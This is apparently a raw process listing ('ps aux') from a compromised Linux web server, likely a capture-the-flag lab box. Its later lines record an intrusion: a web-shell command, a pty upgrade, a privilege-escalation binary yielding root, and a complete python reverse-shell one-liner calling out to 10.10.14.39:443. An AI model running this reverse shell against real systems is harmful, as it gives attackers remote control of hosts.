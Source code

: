     root         69  0.0  0.0      0     0 ?        S<   11:48   0:00 [bioset]
    root         70  0.0  0.0      0     0 ?        S<   11:48   0:00 [bioset]
    root         71  0.0  0.0      0     0 ?        S<   11:48   0:00 [bioset]
    root         72  0.0  0.0      0     0 ?        S<   11:48   0:00 [bioset]
    root         73  0.0  0.0      0     0 ?        S    11:48   0:00 [scsi_eh_0]
    root         74  0.0  0.0      0     0 ?        S<   11:48   0:00 [scsi_tmf_0]
    root         75  0.0  0.0      0     0 ?        S    11:48   0:00 [scsi_eh_1]
    root         76  0.0  0.0      0     0 ?        S<   11:48   0:00 [scsi_tmf_1]
    root         84  0.0  0.0      0     0 ?        S<   11:48   0:00 [ipv6_addrconf]
    root         90  0.0  0.0      0     0 ?        S<   11:48   0:00 [bioset]
    root         98  0.0  0.0      0     0 ?        S<   11:48   0:00 [deferwq]
    root         99  0.0  0.0      0     0 ?        S<   11:48   0:00 [charger_manager]
    root        146  0.0  0.0      0     0 ?        S    11:48   0:00 [scsi_eh_2]
    root        147  0.0  0.0      0     0 ?        S<   11:48   0:00 [scsi_tmf_2]
    root        148  0.0  0.0      0     0 ?        S<   11:48   0:00 [vmw_pvscsi_wq_2]
    root        149  0.0  0.0      0     0 ?        S<   11:48   0:00 [bioset]
    root        165  0.0  0.0      0     0 ?        S<   11:48   0:00 [kpsmoused]
    root        166  0.0  0.0      0     0 ?        S<   11:48   0:00 [ttm_swap]
    root        190  0.0  0.0      0     0 ?        S    11:48   0:00 [jbd2/sda1-8]
    root        191  0.0  0.0      0     0 ?        S<   11:48   0:00 [ext4-rsv-conver]
    root        216  0.0  0.2  28332  2744 ?        Ss   11:48   0:00 /lib/systemd/systemd-journald
    root        221  0.0  0.0      0     0 ?        S<   11:48   0:00 [kworker/0:1H]
    root        238  0.0  0.0      0     0 ?        S    11:48   0:00 [kauditd]
    root        266  0.0  0.0 158624   324 ?        Ssl  11:48   0:00 vmware-vmblock-fuse /run/vmblock-fuse -o rw,subtype=vmware-vmblock,default_permissions,allow_other,dev,suid
    root        289  0.0  0.3  44260  3736 ?        Ss   11:48   0:00 /lib/systemd/systemd-udevd
    systemd+    422  0.0  0.2 100324  2560 ?        Ssl  11:48   0:03 /lib/systemd/systemd-timesyncd
    root        587  0.0  1.0 111992 10120 ?        Ss   11:48   0:32 /usr/bin/vmtoolsd
    root        590  0.0  0.3  29008  3060 ?        Ss   11:48   0:00 /usr/sbin/cron -f
    syslog      593  0.0  0.3 256396  3312 ?        Ssl  11:48   0:00 /usr/sbin/rsyslogd -n
    root        594  0.0  0.8 275864  8392 ?        Ssl  11:48   0:00 /usr/lib/accountsservice/accounts-daemon
    message+    602  0.0  0.3  42900  3924 ?        Ss   11:48   0:00 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation
    root        619  0.0  0.1  20100  1208 ?        Ss   11:48   0:00 /lib/systemd/systemd-logind
    root        659  0.0  0.1  15940  1812 tty1     Ss+  11:48   0:00 /sbin/agetty --noclear tty1 linux
    root        751  0.0  2.4 255896 24732 ?        Ss   11:48   0:02 /usr/sbin/apache2 -k start
    root        816  0.0  0.0      0     0 ?        S    12:03   0:22 [kworker/0:1]
    www-data   1201  0.0  1.2 256180 12228 ?        S    13:27   0:00 /usr/sbin/apache2 -k start
    www-data   1225  0.0  0.0   4508   788 ?        S    13:31   0:00 sh -c uname -a; w; id; /bin/sh -i
    www-data   1229  0.0  0.0   4508   840 ?        S    13:31   0:00 /bin/sh -i
    www-data   1233  0.0  0.6  32168  6936 ?        S    13:32   0:00 python -c import pty; pty.spawn("/bin/bash")
    www-data   1234  0.0  0.3  18216  3304 pts/0    Ss   13:32   0:00 /bin/bash
    root       1241  0.0  0.3  49792  3544 pts/0    S    13:33   0:00 sudo -u scriptmanager bash -i
    scriptm+   1242  0.0  0.4  19272  4284 pts/0    S    13:33   0:00 bash -i
    scriptm+   1372  0.0  0.0   4428   724 pts/0    S    13:51   0:00 ./44298
    root       1373  0.0  0.0   4508   788 pts/0    S    13:51   0:00 sh -c /bin/bash
    root       1374  0.0  0.4  19272  4340 pts/0    S+   13:51   0:00 /bin/bash
    root       3021  0.0  0.0      0     0 ?        S    20:00   0:00 [kworker/u256:1]
    www-data   3627  0.0  1.1 256212 11920 ?        S    21:53   0:00 /usr/sbin/apache2 -k start
    www-data   3698  0.0  1.1 256212 11920 ?        S    21:54   0:00 /usr/sbin/apache2 -k start
    www-data   3753  0.0  1.2 256372 12040 ?        S    21:58   0:00 /usr/sbin/apache2 -k start
    www-data   3757  0.0  1.1 256212 11920 ?        S    21:58   0:00 /usr/sbin/apache2 -k start
    www-data   3768  0.0  1.1 256212 11920 ?        S    21:59   0:00 /usr/sbin/apache2 -k start
    www-data   3809  0.0  1.2 256372 12036 ?        S    22:01   0:00 /usr/sbin/apache2 -k start
    www-data   3822  0.0  1.2 256372 12060 ?        S    22:03   0:00 /usr/sbin/apache2 -k start
    www-data   3854  0.0  1.2 256372 12036 ?        S    22:06   0:00 /usr/sbin/apache2 -k start
    www-data   3860  0.0  1.2 256372 12060 ?        S    22:07   0:00 /usr/sbin/apache2 -k start
    www-data   3868  0.0  1.1 256372 11940 ?        S    22:08   0:00 /usr/sbin/apache2 -k start
    www-data   4122  0.0  0.0   4508   700 ?        S    22:40   0:00 sh -c cd /var/www/html/dev; python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.39",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' 2>&1
